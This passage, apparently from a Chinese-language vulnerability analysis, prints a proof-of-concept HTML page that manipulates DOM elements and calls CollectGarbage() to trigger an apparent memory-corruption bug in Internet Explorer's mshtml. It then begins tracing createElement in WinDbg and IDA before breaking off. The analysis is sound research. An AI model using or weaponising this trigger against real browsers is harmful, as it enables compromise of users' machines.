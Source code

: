 ##### 2. 解析JavaScript代码

查看poc.html文件的源码：

```html
<!doctype html> <!-- required -->
<HTML>
<head>
</head>
<body>
<ttttt:whatever id="myanim"/><!-- required format -->
<script>
    f0=document.createElement('span');
	document.body.appendChild(f0);

	f1=document.createElement('span');
	document.body.appendChild(f1);

	f2=document.createElement('span');
	document.body.appendChild(f2);

	document.body.contentEditable="true";
	f2.appendChild(document.createElement('datalist')); //has to be a data list
	f1.appendChild(document.createElement('table'));    //has to be a table

	try{
	        f0.offsetParent=null;                       //required
	}catch(e){  }

	f2.innerHTML="";                                    //required
	f0.appendChild(document.createElement('hr'));       //required
	f1.innerHTML="";                                    //required
	CollectGarbage();
 </script>
</body>
</html>
```

首先创建了span元素：

```js
f0=document.createElement('span');
```

在WinDbg中查询相关的处理函数：

```cpp,c
0:005> x mshtml!*document*createElement*
67605e8d mshtml!CDocument::createElement = <no type information>
676b6ec0 mshtml!s_methdescCDocumentcreateElement = <no type information>
67605ee6 mshtml!CDocument::CreateElementHelper = <no type information>
```

首先分析第一个函数mshtml!CDocument::createElement

在Ida中打开mshtml.dll文件，查找这个函数，逐步跟进，将函数“抽丝剥茧”，找到最终的核心函数CreateElement，函数的调用关系如下：
